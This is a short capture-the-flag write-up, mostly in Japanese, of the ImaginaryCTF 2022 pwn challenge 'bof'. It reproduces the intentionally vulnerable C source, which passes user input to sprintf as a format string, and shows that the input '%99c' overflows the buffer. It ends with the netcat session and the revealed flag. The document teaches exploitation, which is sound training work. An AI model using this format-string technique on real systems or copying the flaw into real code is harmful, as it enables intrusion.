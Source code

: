 ```yaml
---
layout: post
title: "ImaginaryCTF 2022 - pwn: bof"
published : true
tags: CTF WriteUps pwn bof
---
```

## Description
Can you bof me?

## Attachments
https://imaginaryctf.org/r/naCsv#bof https://imaginaryctf.org/r/7ngbn#bof.c
nc bof.chal.imaginaryctf.org 1337

```c
#include <stdio.h>
#include <stdlib.h>

struct string {
  char buf[64];
  int check;
};

char temp[1337];


int main() {
  struct string str;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  str.check = 0xdeadbeef;
  puts("Enter your string into my buffer:");
  fgets(temp, 5, stdin);
  sprintf(str.buf, temp);

  if (str.check != 0xdeadbeef) {
    system("cat flag.txt");
  }
}
```

## WriteUp
`fgets(temp, 5, stdin);`では、標準入力は5文字に制限されている。
しかしながら、`sprintf(str.buf, temp);`とあり、フォーマット文字列が使用できる。`%99c`を与えることで、99文字が書き込まれたこととなり、0xdeadbeefを上書きできる。

```sh
┌──(parrot㉿parrot)-[/ctf/ctf-event/ImaginaryCTF 2022/pwn/bof]
└─$ nc bof.chal.imaginaryctf.org 1337

== proof-of-work: disabled ==
Enter your string into my buffer:
%99c                                                                             ictf{form4t_strings_4re_c00l_051c94e1}
```
